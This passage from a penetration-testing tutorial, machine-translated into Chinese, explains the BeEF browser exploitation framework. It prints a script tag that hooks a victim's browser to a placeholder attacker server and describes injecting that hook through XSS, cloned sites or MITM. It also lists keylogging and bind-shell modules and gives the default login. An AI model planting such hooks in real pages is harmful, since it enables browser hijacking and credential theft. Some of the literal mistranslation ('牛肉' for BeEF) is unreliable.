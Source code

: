 BeEF 是一个类似于 Metasploit 的框架，在该框架中，我们可以使用不同的模块，这取决于我们试图实现的目标。它是一个平台，您可以使用它直接生成有效负载并将其发送到目标 web 浏览器。牛肉攻击工具是用 Ruby 编程语言编写的。使 BeEF 成为社交工程攻击如此吸引人的工具的特性是：不同类型的模块、易于使用的界面，以及它能够使用称为钩子的东西同时控制许多 web 浏览器。

JavaScript 是 web 浏览器中使用的主要客户端脚本语言，BeEF 使用它将客户端 web 浏览器连接到运行 BeEF 的服务器。牛肉由两个主要成分组成：

*   管理挂接客户端的服务器应用程序，也称为僵尸
*   在受害者的 web 浏览器中运行的 JavaScript 挂钩

钩子是托管在服务器上的 JavaScript，在 web 浏览器下载的客户端代码中引用，并用作命令和控制通道。一旦 web 浏览器处理了钩子，它就会拨回 BeEF 服务器，并在 BeEF 服务器和客户端之间传递基于 JavaScript 的命令。

下面的代码中显示了一个钩子示例。此代码插入到由 web 浏览器下载的 HTML 文件中：

```
<script type="text/javascript" src="http://<BeEF_server_IP>:3000/hook.js"></script>
```

## 牛钩注射液

钩子可以通过以下方式注入浏览器：

*   攻击者可以利用 web 应用程序上的 XSS 漏洞并通过该漏洞注入牛肉钩。与易受攻击网站交互的最终用户的 web 浏览器将从 BeEF 服务器下载 Javascript 并与之挂钩。
*   另一种方法是攻击者克隆流行网站或用户经常访问的网站，并将牛肉钩注入 HTML 文件。任何与该网站互动的用户都会上瘾。这种方法需要成功的社会工程攻击，这将诱使用户访问恶意网站。
*   一种不太常见的方法是使用 MITM 攻击将钩子注入浏览器。Shank 和 MITMf 是两种可用于实现此目的的工具。为了使用此方法，攻击者需要控制客户端和服务器之间的网络。

BeEF 工具的一些功能和用途如下所示：

*   端口扫描器
*   键盘记录器
*   浏览器信息收集
*   绑壳
*   网络映射
*   Metasploit 集成

让我们从工具开始。在**应用程序****开发工具**中找到。图形用户界面将在 web 浏览器中打开。要从 bash shell 启动该工具，请导航到`/usr/share/beef-xss`目录并启动 BeEf 可执行文件。bash shell 将显示钩子 URL、UI URL 和其他有用信息。

### 注

登录 web 界面的默认用户名和密码为`beef`。

登录应用程序后，您将看到一个主页，让您开始使用该工具。BeEF 附带了一个演示页面，您可以在其中指向浏览器并检查 BeEF 的各种功能。演示页面的 URL 为`http://<IP_BeEF_Server>:3000/demos/basic.html`。

BeEF 面板的左侧窗格显示钩住的浏览器和关于钩住的客户端的其他相关信息；联机节点将列出当前处于活动状态的浏览器。右侧的窗格由工具提供的不同选项组成：

![BeEF hook injection](../Images/image01209.jpeg)

在右侧窗格中，模块和 BeEF 收集的信息被分为多个选项卡，如下所述：

*   **详情**：此页签显示牛肉使用钩子采集的所有信息。它显示浏览器版本和基础操作系统。该工具还可以识别是否安装了其他浏览器组件，如 Flash、VBScript、ActiveX 和媒体播放器插件。所有这些信息都是通过使用 JavaScript 钩子收集的。
*   **日志**：此部分保存浏览器上发生的所有活动。当浏览器失去焦点并重新获得焦点时，它将记录日志。它将捕捉浏览器上的所有鼠标点击以及用户在浏览器中键入的文本。
*   **Commands**: This section has all the juicy and attractive modules listed in a tree. Each module will have colored icons beside it, which indicate the following:

    *   绿色表示模块将针对目标工作，并对最终用户不可见。
    *   红色表示模块无法针对目标工作。虽然我看到一些模块即使图标颜色是红色也能工作，所以尝试一下也没有什么坏处。
    *   橙色表示模块活动将对用户可见。有部分模块会显示一个弹出框，请求用户许可；一个例子是运行网络摄像头模块。
    *   灰色表示该模块尚未针对挂接的浏览器进行测试。
